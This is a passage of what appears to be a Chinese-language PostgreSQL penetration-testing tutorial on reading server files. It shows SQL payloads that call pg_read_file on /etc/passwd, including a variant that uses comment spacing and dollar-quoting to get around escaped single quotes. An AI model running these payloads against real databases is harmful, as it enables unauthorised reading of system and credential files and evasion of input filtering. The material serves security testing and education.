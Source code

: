 [![](assets/1710209150-530eb6a5fef3548554f1e6ae990e913e.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/18.png)

- - -

# [](#postgresql-%E8%AF%BB%E6%96%87%E4%BB%B6)PostgreSQL 读文件

**方法 1 pg\_read\_file**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>-- 注意: 在早期的 PostgreSQL 版本中,pg_read_file 不允许使用绝对路径<br>select pg_read_file('/etc/passwd');<br><br>-- 单引号被转义的情况下使用<br>select/**/PG_READ_FILE($$/etc/passwd$$)<br>``` |

[![](assets/1710209150-ac2b781ff0eb1b4eccafa2351baf22ef.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/15.png)
